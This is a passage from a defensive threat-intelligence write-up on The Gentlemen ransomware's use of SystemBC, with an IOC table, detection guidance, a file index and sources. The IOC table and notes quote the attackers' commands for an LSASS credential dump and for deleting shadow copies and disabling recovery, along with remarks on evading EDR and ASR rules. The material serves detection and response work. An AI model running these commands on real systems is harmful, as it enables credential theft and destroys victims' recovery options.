| ttp | SystemBC custom RC4 SOCKS5 over plain TCP | C2 fingerprint | high | Check Point Research |
| ttp | 100-byte TCP initial packet (50 B key + 50 B RC4-encrypted init) | SystemBC handshake structural anchor | high | Check Point Research |
| ttp | `rundll32.exe comsvcs.dll, MiniDump <pid> <out> full` | LSASS dump LOLBin | high | Check Point Research |
| ttp | `bcdedit /set {default} recoveryenabled No` | Recovery inhibition pre-encryption | high | Check Point Research |
| ttp | `vssadmin delete shadows /all /quiet` | Shadow copy deletion pre-encryption | high | Check Point Research |
| ttp | X25519 + XChaCha20 AEAD file encryption | Modern AEAD ransomware crypto via libsodium | high | Check Point Research |
| path | `C:\ProgramData\update.exe` | SystemBC drop location | medium | Check Point Research |
| path | `%APPDATA%\Microsoft\winsrv.exe` | SystemBC drop location | medium | Check Point Research |
| path | `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml` | GPO weaponisation drop path | high | Check Point Research |
| tooling | `Advanced_IP_Scanner.exe`, `AdFind.exe`, `SharpHound.exe`, `rclone.exe`, `Rubeus.exe` | Discovery + credential + exfil toolchain | high | Check Point Research |
| asn | AS213790 | SystemBC parallel infrastructure cluster (Silent Push) | medium | Silent Push |
| sha1 | `cf7af42525e715bd77f8465f6ac0fd9e5bea0da0` | Legacy SystemBC sample reference (validate before blocking) | low-medium | Public sandbox / class material |
| cve | CVE-2024-55591 | FortiOS / FortiProxy auth bypass — historical operator entry vector | medium | Fortinet PSIRT |

Full IOC set in [`iocs.csv`](./iocs.csv). No live C2 IPs are pinned in this folder — the seized Check Point panel data should be used as the authoritative blocklist, refreshed from the vendor feed.

## Secondary findings

- **CISA KEV addition (24 April 2026) — SimpleHelp CVE-2024-57726 and CVE-2024-57728.** The same precursor edge product that drives DragonForce intrusions; FCEB deadline 8 May 2026. SimpleHelp belongs to the same access-broker market segment that feeds The Gentlemen affiliates, so a SimpleHelp KEV hit on the perimeter is a credible precursor for a Gentlemen + SystemBC engagement.
- **Storm-1175 to Medusa via GoAnywhere CVE-2025-10035 and SmarterMail CVE-2026-23760 (Microsoft Threat Intel, April 2026).** China-nexus cluster pivoting through web-facing assets into a Medusa ransomware deployment — adjacent e-crime pivot pattern; useful as a comparison case for affiliate hand-off tradecraft and for the recurring theme of edge-device exploitation funneling into RaaS deployment.
- **Bitwarden npm supply-chain (22 April 2026).** A maintainer-account compromise tainted the Bitwarden CLI npm package; roughly 334 developer installs across the window before remediation. Different vector class (supply chain rather than perimeter), but the same week's top story for the developer-toolchain track and a useful reminder that endpoint EDR alone does not cover the supply-chain attack surface that an operator like The Gentlemen could pivot through in a future engagement.

## Pedagogical anchors

- **GPO weaponisation is the durable detection target, not the encryptor.** SYSVOL writes outside change windows are extremely rare in healthy environments; a single Sigma rule on `EventID 5136` `groupPolicyContainer` plus `EventID 5145` SMB writes to `\Machine\Scripts\Startup\` covers the entire RaaS class — not just The Gentlemen.
- **Plain-TCP egress without a TLS handshake from a non-browser process** is a high-signal anchor across SystemBC, Quasar, BPFDoor, Sliver-on-mTLS-misconfigured and many others. Build it once with a left-anti join against a 30-day TLS-talker baseline, reuse it for years.
- **The per-session RC4 key is in RAM only.** If you power off before dumping memory, you destroy the only realistic non-paid decryption channel. Train the on-call NOC: SystemBC IR begins with `WinPMem`, not with `shutdown /s /t 0`.
- **X25519 + XChaCha20 means no crypto-bug shortcut.** Modern AEAD removes the rookie-bug bet from the IR table. Compare with future repo entries where the same family of operators *did* ship a crypto bug (e.g. nonce reuse, truncated tag) — those cases let a clean-room reverser recover plaintext. This one does not.
- **`comsvcs.dll, MiniDump` is the single highest-yield LSASS dump LOLBin in 2026.** It works on every supported Windows version, it leaves only a clean `rundll32.exe` parent on EDR telemetry, and it survives most "block credential stealing from LSASS" Attack Surface Reduction rules unless ASR rule `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2` is in block mode. Tune for the explicit command line, not for the parent process name.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This case write-up |
| [`kill_chain.svg`](./kill_chain.svg) | The Gentlemen + SystemBC kill-chain diagram, light/dark adaptive |
| [`iocs.csv`](./iocs.csv) | Machine-readable IOC list |
| [`sigma/gpo_weaponization_systembc.yml`](./sigma/gpo_weaponization_systembc.yml) | Sigma — GPO mass `gPLink` + SYSVOL Startup script changes by a non-Tier-0 account |
| [`kql/tcp_beacon_no_tls_systembc.kql`](./kql/tcp_beacon_no_tls_systembc.kql) | KQL — Sentinel / Defender XDR plain-TCP beacon without a TLS handshake from a non-browser process |
| [`yara/SystemBC_RC4_Heuristic.yar`](./yara/SystemBC_RC4_Heuristic.yar) | YARA — SystemBC RC4 SOCKS5 heuristic for PE memory and disk artefacts |

## Sources

- [Check Point Research — DFIR Report: The Gentlemen and SystemBC](https://research.checkpoint.com/2026/dfir-report-the-gentlemen/)
- [Check Point Research — 27th April Threat Intelligence Report](https://research.checkpoint.com/2026/27th-april-threat-intelligence-report/)
- [The Hacker News — SystemBC C2 Server Reveals 1,570+ Victims](https://thehackernews.com/2026/04/systembc-c2-server-reveals-1570-victims.html)
- [BleepingComputer — The Gentlemen ransomware now uses SystemBC for bot-powered attacks](https://www.bleepingcomputer.com/news/security/the-gentlemen-ransomware-now-uses-systembc-for-bot-powered-attacks/)
- [Trend Micro — Unmasking The Gentlemen Ransomware](https://www.trendmicro.com/en_us/research/25/i/unmasking-the-gentlemen-ransomware.html)
- [Bitsight — SystemBC: The Multipurpose Proxy Bot Still Breathes](https://www.bitsight.com/blog/systembc-multipurpose-proxy-bot-still-breathes)
- [Silent Push — 10,000+ infected IPs in the SystemBC botnet](https://www.silentpush.com/blog/systembc/)
- [Group-IB — Hasta la muerte: The Gentlemen RaaS TTPs](https://www.group-ib.com/blog/hastalamuerte-gentlemen-raas-ttps/)
- [Microsoft Security Blog — Storm-1175 focuses on Medusa ransomware operations](https://www.microsoft.com/en-us/security/blog/2026/04/06/storm-1175-focuses-gaze-on-vulnerable-web-facing-assets-in-high-tempo-medusa-ransomware-operations/)
- [CISA KEV — Four vulnerabilities added on 24 April 2026 (incl. SimpleHelp)](https://www.cisa.gov/news-events/alerts/2026/04/24/cisa-adds-four-known-exploited-vulnerabilities-catalog)
- [MITRE ATT&CK — T1484.001 Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)
- [Fortinet PSIRT — FG-IR-24-535 (CVE-2024-55591)](https://www.fortiguard.com/psirt/FG-IR-24-535)
